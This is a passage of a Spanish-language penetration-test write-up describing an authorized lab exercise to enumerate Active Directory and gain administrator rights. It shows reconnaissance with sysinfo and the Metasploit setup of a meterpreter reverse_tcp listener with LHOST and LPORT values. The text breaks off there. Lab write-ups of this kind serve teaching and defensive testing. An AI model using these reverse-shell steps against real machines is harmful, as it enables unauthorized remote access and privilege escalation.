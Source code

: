 - **Documentación Detallada**: Registrar todas las acciones realizadas durante el ejercicio para facilitar el análisis y la mejora continua.

- **Debriefing**: Realizar una sesión de debriefing al final del ejercicio para discutir los hallazgos y colaborar en la implementación de mejoras.

# Obtención de Active Directory
## Introducción
La enumeración de Active Directory es un paso esencial en la evaluación de la infraestructura, permitiéndonos identificar posibles debilidades y áreas de mejora en la gestión de usuarios, grupos y políticas de seguridad.

El objetivo principal de este ejercicio es simular un escenario en el que un actor malintencionado busca obtener privilegios de administrador dentro de un entorno de Active Directory. Para lograr esto, se emplearán técnicas de enumeración avanzada, aprovechando herramientas y métodos específicos para mapear la estructura de Active Directory, identificar cuentas de usuario privilegiadas y explorar vulnerabilidades en la configuración de permisos.

Durante el ejercicio, se prestará especial atención a las tácticas que podrían ser utilizadas para elevar privilegios y obtener acceso a cuentas de administrador. Esto incluirá la explotación de posibles vulnerabilidades, el análisis de configuraciones inseguras y la identificación de caminos de ataque que podrían ser explotados.

**Es fundamental destacar que este ejercicio se llevará a cabo en un entorno controlado y autorizado.**

## Proceso de Captura
### Reconocimiento 
La recopilación de información de la máquina W10 mediante:
`sysinfo`  
De esta manera se obtuvieron detalles sobre el sistema operativo, versión, configuración de red y aplicaciones en ejecución. Este paso es crucial para comprender el entorno objetivo.

### Explotación
Desde la maquina atacante se preparo un ambiente con Metasploit
```
msfconsole
```
>**La apertura de una consola de Metasploit es esencial para aprovechar las herramientas y exploits disponibles en el marco Metasploit.**

Se seleccionando el módulo /multi/handler
'set /multi/handler'.

La elección del payload windows/x64/meterpreter/reverse_tcp se ajusta al sistema operativo de la máquina víctima (64 bits). Configurar el LHOST y LPORT establece la dirección IP y el puerto para la conexión inversa.

- set LHOST 192.168.159.138
- set LPORT 443
- set PAYLOAD windows/x64/meterpreter/reverse_tcp
